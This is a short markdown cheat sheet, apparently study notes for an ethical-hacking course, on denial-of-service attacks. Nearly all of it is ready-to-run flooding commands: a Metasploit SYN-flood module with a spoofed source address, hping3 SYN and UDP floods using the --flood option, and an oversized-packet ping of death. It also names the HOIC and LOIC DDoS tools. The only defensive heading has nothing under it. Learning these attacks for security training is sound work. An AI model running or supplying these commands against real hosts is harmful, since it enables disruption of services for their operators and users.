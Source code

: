 # Denial of Service

## SYN flooding using Metasploit
`msfconsole`
`use auxiliary/dos/tcp/synflood`
SET RHOST, RPORT, SHOST - spoofed IP

## SYN flooding using hping3, many packets
`hping3 -S t.t.t.t -a sp.o.o.fd -p 22 --flood` - S sets SYN flag
## SYN Ping of Death, large packets
`hping3 -d 65538 -S -p 21 t.t.t.t` - d sets data size

# UDP flooding on WS NetBIOS port 139, many packets
`hping3 -2 -p 139 --flood t.t.t.t` - 2 is the UDP mode

## Distributed Denial of Service
HOIC - High Orbit Ion Cannon
LOIC - Low etc

# Detect and Protect against DOS and DDOS
## Anti DDOS Guardian